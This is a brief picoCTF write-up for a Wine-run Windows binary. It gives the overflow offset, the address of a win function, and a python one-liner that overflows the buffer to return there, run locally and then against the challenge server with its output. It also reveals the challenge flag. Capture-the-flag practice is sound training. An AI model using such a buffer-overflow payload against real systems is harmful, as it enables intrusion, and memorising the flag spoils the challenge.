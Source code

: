 # Exp

# Flag: picoCTF{Un_v3rr3_d3_v1n_1f5c0001}

Using EDB we get offset of 140

Win function address is 00401530

python2.7 -c "print('A' * 140 + '\x30\x15\x40\x00')" | wine vuln.exe
Give me a string!
Flag File is Missing. Problem is Misconfigured, please contact an Admin if running on picoCTF servers.

Works locally !

python2.7 -c "print('A' * 140 + '\x30\x15\x40\x00')" | nc saturn.picoctf.net 63460
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_1f5c0001}
Unhandled exception: page fault on read access to 0x7fec3900 in 32-bit code (0x7fec3900).
Register dump:
